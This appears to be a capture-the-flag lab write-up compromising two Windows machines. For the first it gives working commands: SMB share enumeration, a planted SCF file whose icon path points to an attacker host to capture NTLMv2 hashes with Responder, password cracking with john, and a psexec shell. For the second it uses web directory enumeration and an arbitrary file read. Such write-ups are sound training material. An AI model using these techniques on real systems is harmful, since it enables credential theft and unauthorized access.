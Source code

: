 ﻿# Windows lab

## Machine 1

First thing we need to make a scan with ```nmap```:

    nmap -A -Pn <target_ip>

![enter image description here](https://i.ibb.co/hfW4hNj/Screen-Shot-2023-01-02-at-11-37-47-AM.png)
Nothing special.
Second thing, to enumerate shares with ```smbclient```

    smbclient -L <target_ip>

![enter image description here](https://i.ibb.co/7rMcjjV/Screen-Shot-2023-01-02-at-11-41-55-AM.png)
We got some shares here, but there is only three shares that we can access without credentials, compta, deepwin and orga.

If we access the compta share, we gonna find a zip file called ```file_backup.zip```:

![enter image description here](https://i.ibb.co/r7Phgmn/Screen-Shot-2023-01-02-at-12-40-31-PM.png)
To get the file, we run ``get file_backup.zip``, now we should find on our machine.
run ``unzip file_backup.zip`` to unzip the file, we enter the directory and we got an SCF file.

> SCF stands for Shell Command File and is a file format that supports a
> very limited set of Windows Explorer commands, such as opening a
> Windows Explorer window or showing the Desktop. The "Show Desktop"
> shortcut we all use on a daily basis is an SCF file.

Now cat the file:

![enter image description here](https://i.ibb.co/0rQHF9B/Screen-Shot-2023-01-02-at-12-53-30-PM.png)
We should make some changes on it first:

    [shell]
    command=2
    IconFile=\\<attacker_ip>\compta\hacked.ico
    [taskbar]
    Command=ToggleDesktop

It should look like this, now when the user browses the share, their system will establish a connection to our machine (server). The server will then send a challenge key to the client, which is used to encrypt the user's hashed password. This encrypted hash, known as the NTLMv2 hash, is sent back to the server as part of the authentication process. It is possible for a tool such as Responder to capture this NTLMv2 hash as it is transmitted over the network.

First we need to upload this file to the share as ``@file.scf``, adding @ will place the file.scf on the top of the share:

    curl --upload-file @file.scf -u 'Guest' smb://<target_ip>/compta

Now we can launch responder and wait till a user browse the file:

    responder -w --lm -v -I eth0

After waiting a short time, we got the Administrator hash:

![enter image description here](https://i.ibb.co/NtsXW7n/Screen-Shot-2023-01-02-at-1-08-17-PM.png)
We can't log using pass the hash because this an NTLMv2 hash, so we should try to crack the password:

    echo "<copy_the_Ntlmv2_hash_here>" > hash.txt && john -w=/usr/share/wordlists/rockyou.txt hash.txt

![enter image description here](https://i.ibb.co/mzFyvc3/Screen-Shot-2023-01-02-at-1-14-16-PM.png)
Now we got Administrator user password, we can use ``psexec.py`` to get a shell:

    psexec.py Administrator:P@ssw0rd@<target_ip> cmd.exe

Now we got a shell, go search for the flag.

## Machine 2

We should start with a quick nmap scan:

    nmap -Pn <target_ip>

![enter image description here](https://i.ibb.co/b3gkv8R/Screen-Shot-2023-01-02-at-8-30-50-PM.png)
We can see that we have an open http port, so we gonna try to access this website through our browser:

![enter image description here](https://i.ibb.co/qp0BBTq/Screen-Shot-2023-01-02-at-8-32-54-PM.png)
Nothing special, so we check if there is anything we can get from the requests made by the website.

Open inspect and go to the network Tab then refresh the page.

![enter image description here](https://i.ibb.co/cFhtvXP/Screen-Shot-2023-01-02-at-8-36-40-PM.png)
We can see that we are dealing with an ASP.NET Backend Framework, now we should try if there is any pages we can access, to do this we gonna use a simple ```dirb```, to search for any ``.aspx`` files:

    dirb http://<target_ip>/ -X .aspx
![enter image description here](https://i.ibb.co/2Wnx4hp/Screen-Shot-2023-01-02-at-8-41-13-PM.png)
We found three files, let's check them out.

![enter image description here](https://i.ibb.co/Rzc9jw3/Screen-Shot-2023-01-02-at-8-43-16-PM.png)
It says that we can read files from here, let's give the path of the flag and it suppose to give us it's content.
 enter: ``C:/Users/Administrator/Desktop/proof.txt`` and congratulation.
